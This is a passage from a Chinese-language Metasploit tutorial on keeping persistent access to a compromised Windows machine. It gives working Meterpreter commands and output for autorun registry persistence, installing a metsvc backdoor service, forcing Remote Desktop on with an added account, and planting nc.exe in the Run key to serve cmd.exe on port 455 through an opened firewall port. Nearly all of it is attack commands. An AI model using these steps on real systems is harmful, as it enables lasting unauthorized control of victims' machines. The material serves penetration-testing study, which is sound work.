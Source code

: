 ```shell
[*] Executing script C:\DOCUME~1\wangjun\LOCALS~1\Temp\VKZehDGmg.vbs
[+] Agent executed with PID 3892
[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\UymiaoVKhfXxH
[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\UymiaoVKhfXxH
```

### 通过metsvc服务的方式

运行`run metsvc`将会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动。运行`run metsvc -r`卸载目标主机上的Meterpreter服务。

```shell
meterpreter > run metsvc
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\DOCUME~1\wangjun\LOCALS~1\Temp\PCDqsWgh...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
     * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```

### 通过开启远程桌面

```shell
# 强制开启目标主机远程桌面并自动添加用户名为metasploit密码为meterpreter的用户
run getgui -u metasploit -p meterpreter
# 上面命令会生成清理痕迹的ruby的脚本文件，位置在/root/.msf4/logs/scripts/getgui/clean_up_xxxxx.rc
# 当操作完目标用户后可以使用此脚本清理痕迹、关闭远程桌面服务和删除创建的用户
un multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up_xxxxx.rc
```

### 通过nc上传新的后门

```shell
# 上传nc.exe至目标主机
meterpreter > upload /root/Desktop/nc.exe c:\\windows\\system32
# 枚举查看注册表启动项
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
# 将nc.exe设置到注册表启动项中
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'c:\windows\system32\nc.exe -Ldp 455 -e cmd.exe'
# 查看以确定nc已经被设置到注册表启动项中
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
# 进入目标系统cmd
eterpreter > execute -f cmd -i
# 查看目标系统当前防火墙规则
c:\Document and Setting\rush\Desktop > netsh firewall show opmode
# 将nc开放的端口加入到目标系统防火墙规则中
c:\Document and Setting\rush\Desktop > netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL
# 查看目标系统防火墙端口开放状态
c:\Document and Setting\rush\Desktop > netsh firewall show portopening

# 转至攻击主机上，执行nc连接到目标主机上，得到shell
nc -v 192.168.0.3 455
```
